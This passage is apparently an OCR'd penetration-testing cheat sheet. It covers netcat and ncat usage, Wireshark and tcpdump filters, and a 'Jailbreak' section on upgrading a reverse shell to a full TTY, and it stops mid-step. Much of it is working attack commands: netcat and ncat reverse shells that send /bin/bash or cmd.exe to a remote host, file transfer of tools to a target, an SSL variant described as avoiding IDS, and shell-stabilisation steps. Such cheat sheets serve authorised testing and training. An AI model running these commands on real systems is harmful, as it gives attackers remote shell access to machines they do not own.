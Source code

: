         `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`
  - Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
  - Some OSs (OpenBSD) will use *nc.traditional* rather than *nc* so watch out for that...
    ```
    whereis nc
    nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz
    /bin/nc.traditional -e /bin/bash 1.2.3.4 4444
    ```
    **There is also a possibility to upload the netcat to the target machine**
  - Create a reverse shell with Ncat using cmd.exe on Windows  
    - `nc.exe -nlvp 4444 -e cmd.exe`
    or
    - `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`
  - Create a reverse shell with Ncat using bash on Linux  
    - `nc -nv $ip 4444 -e /bin/bash`
  - Netcat for Banner Grabbing:
    - `echo "" | nc -nv -w1 <IP Address> <Ports>`
- Ncat - Netcat for Nmap project which provides more security avoid IDS
  - Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`
  - Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`
- Wireshark
  - Show only SMTP (port 25) and ICMP traffic:
        `tcp.port eq 25 or icmp`
  - Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
  - Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
  - Some commands are equal
    - `ip.addr == xxx.xxx.xxx.xxx`
    Equals
    - `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx`
    - `ip.addr != xxx.xxx.xxx.xxx`
    Equals
    - `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`
- Tcpdump
  - Display a pcap file  
       `tcpdump -r passwordz.pcap`
  - Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`
  - Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`
  - Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`

## Jailbreak

You need to do the command if python is available on the target system: `python -c 'import pty; pty.spawn("/bin/bash")'`
   - If python is not available run the command: `/usr/bin/script -qc /bin/bash /dev/null`
   - Then you can examine current terminal with `echo $TERM` which should give you `xterm-256color` or something like that.
   - Then `stty -a` should give you size of TTY="rows 38;column 116". **have that in mind the command looks strange and you can't see it sometimes**
   - Then you need to press **Ctrl+z=`^z`**
   - If you are jail breaking from Normal Terminal In Kali, run the command:
       `stty raw -echo; fg`
       In reverse shell: `reset` & `export SHELL=bash` & `export TERM=<xterm256-color>` `stty rows $ROWS cols $COLS`
   - If you are jail breaking from ZSH shell In Kali, run the command:
